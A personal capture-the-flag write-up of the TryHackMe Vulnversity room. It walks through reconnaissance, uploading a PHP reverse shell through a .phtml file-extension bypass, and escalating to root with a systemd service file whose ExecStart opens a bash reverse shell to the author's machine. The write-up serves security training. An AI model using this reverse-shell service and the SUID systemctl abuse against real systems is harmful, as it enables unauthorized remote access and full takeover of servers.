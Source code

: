 # Vulnversity Room - CTF

This weekend I completed the Vulnversity room. 
This room was an introductory room that gave some guidance on where to look and stepped through the major points of getting the initial reverse shell operating.

From there, the privilege escalation was left up to me to work out. 

The target was a web server, the exploitation was based on PHP. The web server had a PHP upload portal where I was able to upload a reverse PHP shell, then through this shell escalate my privileges to root using a misconfigured permission on the systemctl program within the server.

Notes: 
 - I have not included the basic setup steps for TryHackMe. 
 - Initially I started using the provided 'AttackBox' from TryHackMe, but part way I ended up using my open Kali linux box connected via the VPN so my IP address and the target IP address IPs changed a few times throughout my process description below.

### Tools
I used the following tools:
- Kali Linux
- Nmap
- Netcat
- GoBuster
- Burp
- Linux shell
- Php reverse shell (see link in write up below)

Here is how it went:

## Step 1: Reconnaissance

### Basic reconnaissance was performed using NMAP. 

The open ports discovered with NMAP:

![image](https://user-images.githubusercontent.com/60744763/120154230-ffc22900-c232-11eb-88a2-8df3177cc8b7.png)

Then I looked at the versions of the services with these open ports using the -sV flag with NMAP

![image](https://user-images.githubusercontent.com/60744763/120154311-18cada00-c233-11eb-9682-38c0e05c6c73.png)

We can see Apache running on port 3333, this will be our attack vector. 

### GoBuster to discover interesting folders on the web server

From here we use GoBuster to look for interesting directories on the web server. I  used a brute force method with different word lists.
After trying with a few word I found some interesting folders.

![image](https://user-images.githubusercontent.com/60744763/120154589-634c5680-c233-11eb-8896-7a0501b2bcee.png)

From here we discovered the 'internal' folder, browsing to this showed us an upload portal.

![image](https://user-images.githubusercontent.com/60744763/120154708-7a8b4400-c233-11eb-8603-b287a43fd81b.png)

*Note at this point I changed over to my Kali linux box and reset the target machine, as such the IP address changed.*

Now I looked for additional interseting folders within the /internal URI using GoBuster again.
This found another folder called *uploads* which looks interesting, likely the directory where the upload portal drops files. 

![image](https://user-images.githubusercontent.com/60744763/120176571-c72e4980-c24a-11eb-8e7f-8e684f0761e2.png)


## Step 2: Attempt to deliver a pay load and compromise the server

I used Burp to try and find out what types of file extensions can be uploaded, hoping for a PHP based file. 
Using Burp's sniper attack allowed me to try various file extensions very quickly. 
 
![image](https://user-images.githubusercontent.com/60744763/120155034-cf2ebf00-c233-11eb-88b3-a73405d0430d.png)

This identified that .phtml files can be uploaded, see above.

### Now we deliver the payload:

I uploaded a php reverse shell as a .phtml file using the target's upload page. 
I edited the reverse shell script variables so it points back to my Kali linux’s IP and port. 
The reverse shell was from here: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php 

Then I setup a netcat listener with this command: `nc -lvnp 1234`
This will listen for an incoming connection on port 1234. 
*Note the php reverse shell must be set with this port and my IP address so it can make a connection.*

Then I went to the url http://10.10.151.175:3333/internal/uploads/php-reverse-shell.phtml to run the script I just uploaded. 

Seconds later I received a connection on my netcat listener!
We can see below the reverse shell has made a connection back to my kali box.

![image](https://user-images.githubusercontent.com/60744763/120155466-33ea1980-c234-11eb-81fe-00558f14202d.png)

### And now I have shell access! 

Searching around on this server, I found the first flag in the user's home folder in a file called 'user.txt'.

![image](https://user-images.githubusercontent.com/60744763/120173380-533e7200-c247-11eb-9091-768cf087f58d.png)

## Step 3: Privilege Escalation

Now we want to attempt to get root access. I will look for files with the SUID bit set, maybe one of them can be exploited.

I used the command `find . -perm /4000` to find files with the SUID permissions set. 
This showed that `systemctl` had the sticky-bit set, which is not normal. Since a normal user can stop, start and even create services.

![image](https://user-images.githubusercontent.com/60744763/120173803-bf20da80-c247-11eb-8a77-87f0e5b9c0e4.png)

At this point my plan is to create a service that launches a shell which I can access with the systemctl command. 
Now researching how to do this... BRB

Ok I'm back! I found this article which discusses making a reverse bash shell service to exploit systemctl.
https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49 


I created a file called root.service as below, which will be my reverse bash shell service:
```
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.4.37.95/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

I named the file with a phtml extension and uploaded it through the site (this was quicker than using the nc terminal to create the service file).

Then I renamed the uploaded file from my active shell on the webserver to root.service. 
I ran the following command to create the appropriate symlinks and allow the system to run the service: 
`systemctl enable /var/www/html/internal/uploads/root.service`

![image](https://user-images.githubusercontent.com/60744763/120178127-7cadcc80-c24c-11eb-9475-61e569611f31.png)

Now we have created a new service which should launch a reverse shell back to my kali box.

At this point I opened another netcat listener on port 9999 (as per the root.service) on my Kali box. 
After this I started the service on the webserver shell with the command `systemctl start root.service`

Presto! The service connected back to my Kali machine with the reverse shell as root. See below...
### I am (g)root!

![image](https://user-images.githubusercontent.com/60744763/120174190-29d21600-c248-11eb-9cf7-bbf5514c3653.png)

The flag was found in the folder /root/




